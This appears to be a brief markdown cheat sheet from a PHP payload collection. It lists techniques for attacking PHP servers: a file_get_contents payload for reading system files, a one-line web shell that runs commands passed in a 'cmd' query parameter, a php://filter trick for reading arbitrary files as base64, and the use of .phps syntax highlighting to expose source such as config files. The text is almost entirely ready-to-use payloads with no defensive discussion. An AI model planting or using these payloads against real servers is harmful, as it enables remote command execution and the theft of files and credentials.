 # PHP

## Summary
* [Read system's files](#read-system's-files)
* [Pass a command via query parameter](#pass-a-command-via-query-parameter)
* [Bypass script protection to read a file](#bypass-script-protection-to-read-a-file)
* [Making use of PHP syntax highlighting enabled](#making-use-of-php-syntax-highlighting-enabled)

## Read system's files
```
<?php echo file_get_contents('/path/to/target/file'); ?>
```
## Pass a command via query parameter
```
<?php echo system($_GET['cmd']); ?>
```
## Bypass script protection to read a file
```
http://localhost/read?query=php://filter/convert.base64-encode/resource=/[path]
```
## Making use of PHP syntax highlighting enabled
#### PHP syntax highlighting gives the ability to render PHP code on any browser usially stored in a .phps file
```
http://example.com/config.phps
```
